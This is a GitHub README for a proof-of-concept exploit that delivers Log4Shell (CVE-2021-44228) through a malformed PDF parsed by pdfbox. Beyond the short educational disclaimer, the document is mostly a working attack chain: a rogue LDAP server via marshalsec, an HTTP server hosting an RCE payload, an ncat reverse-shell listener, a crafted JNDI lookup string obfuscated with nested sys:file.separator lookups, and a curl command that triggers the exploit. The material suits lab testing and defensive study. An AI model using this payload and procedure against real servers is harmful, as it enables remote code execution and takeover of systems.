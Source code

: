 
# Exploiting CVE-2021-44228 using PDFs as delivery channel - PoC

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J vulnerabilities using PDF as delivery channel.

The goal is to:
- Carefully craft a malformed PDF file that contains the JNDI lookup payload
- Force the `pdfbox` library to log an ERROR/WARN message that contains the JNDI lookup payload

## Disclaimer

- This PoC is for informational and educational purpose only
- All the information are meant for developing Hacker Defense attitude and help preventing the hack attacks.

## Setup

This repository contains a Web Application that process PDF files using pdfbox library and it is vulnerable to CVE-2021-44228

- org.apache.pdfbox:pdfbox:2.0.24 (latest version)
- org.apache.logging.log4j:log4j-core:2.14.1
- openjdk:8u181-jdk-alpine

The `com.sun.jndi.ldap.object.trustURLCodebase` it set to `true`

# Build the vulnerable application

Build the docker container:

```bash
docker build . -t pdfbox-server
```

# Exploitation

1. Run the vulnerable application

```bash
docker run -p 8080:8080 --name pdfbox-server pdfbox-server
```

![](./docker.png)

2. Start the rogue LDAP server

Change the IP accordingly to your setup

```bash
git clone git@github.com:mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.26.160.1:8888/#RCE"
```

3. Compile the RCE payload and start the HTTP server used to deliver the payload

Edit the `RCE.java` file and change the host variable accordingly to your setup

```bash
cd exploit
javac RCE.java
python -m http.server 8888
```

4. Start the reverse shell listener

```bash
ncat -lvnp 4444
```

5. Modify the PDF

Open the `template.pdf` file in any editor and change the lookup expression. Because `/` is a reserved character in PDF specifications, I've used the recursive variable replacement lookup capabilities.

```bash
${jndi:ldap:${sys:file.separator}${sys:file.separator}172.26.160.1:1389${sys:file.separator}RCE}
```

![](./lookup.png)

5. Trigger the exploit

```bash
curl -i -s -X POST http://127.0.0.1:8080/api/parse --data-binary "@template.pdf"
```

![](./pdf2shell.png)
